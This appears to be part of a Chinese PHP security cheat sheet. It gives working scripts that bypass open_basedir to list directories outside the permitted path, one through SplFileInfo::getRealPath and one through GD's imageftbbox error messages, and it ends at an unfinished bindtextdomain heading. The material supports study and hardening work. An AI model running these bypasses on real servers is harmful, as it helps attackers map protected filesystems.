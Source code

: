 

## SplFileInfo::getRealPath列目录

 SplFileInfo类是一个用来为单个文件的信息提供高级的面向对象的接口，这个类可以进行很多文件的方法，其中就有一个方法和之前的`realpath`很相似，就是`getRealPath`，这个方法在获取文件路径的时候，如果存入一个不存在的路径时，会返回false，否则返回绝对路径，而且他还直接忽略了`open_basedir`的设定 

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("open_basedir: %s <br/><br/>", ini_get('open_basedir'));
$basedir = 'd:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) {
    $info = new SplFileInfo($basedir . $chars[$i] . '<<');
    $re = $info->getRealPath();
    if ($re) {
        echo $re."<br>";
    }
}
```



## GD库imageftbbox/imagefttext列举目录

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```



## bindtextdomain暴力猜解目录
